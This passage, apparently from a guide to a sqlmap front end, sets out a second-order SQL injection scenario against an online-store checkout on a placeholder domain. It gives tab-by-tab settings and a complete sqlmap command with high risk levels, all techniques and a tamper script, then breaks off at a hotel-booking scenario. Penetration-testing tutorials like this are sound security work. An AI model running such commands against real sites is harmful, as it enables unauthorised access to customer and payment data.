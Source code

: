 ### Scenario 6: Shopping Cart Injection
**Target:** Online store checkout process
**Vulnerability:** Second-order injection in order processing

**Configuration:**
```
Target Tab:
├── URL: https://shop.com/checkout.php
├── Method: POST
├── Data: cart_id=789&payment_method=credit_card&amount=99.99
├── Cookie: customer_session=shopping_cart_session
└── Delay: 5

Miscellaneous Tab:
├── Second-Order: https://shop.com/add_to_cart.php
├── Second-Order Data: product_id=1&quantity=1
├── Second-Order Method: POST
└── Second-Order Delay: 2

Injection Tab:
├── Testable Parameters: cart_id
├── DBMS: MySQL
├── Tamper Scripts: space2comment
└── Invalid Logical: ✓

Detection Tab:
├── Level: 4
├── Risk: 3
├── Techniques: BEUSTQ
└── Time Delay: 3

Request Tab:
├── Safe URL: https://shop.com/session_keepalive.php
├── Safe POST: keep_alive=1
└── Timeout: 60
```

**Generated Command:**
```bash
sqlmap -u "https://shop.com/checkout.php" --method=POST --data="cart_id=789&payment_method=credit_card&amount=99.99" --cookie="customer_session=shopping_cart_session" --delay=5 --second-order="https://shop.com/add_to_cart.php" --second-order-data="product_id=1&quantity=1" --second-order-method=POST --second-order-delay=2 -p cart_id --dbms=mysql --tamper=space2comment --invalid-logical --level=4 --risk=3 --technique=BEUSTQ --time-sec=3 --safe-url="https://shop.com/session_keepalive.php" --safe-post="keep_alive=1" --timeout=60 --batch
```

## 🏨 Hospitality Industry Testing

### Scenario 7: Hotel Booking System
**Target:** Hotel reservation management
**Vulnerability:** UNION-based injection in room availability
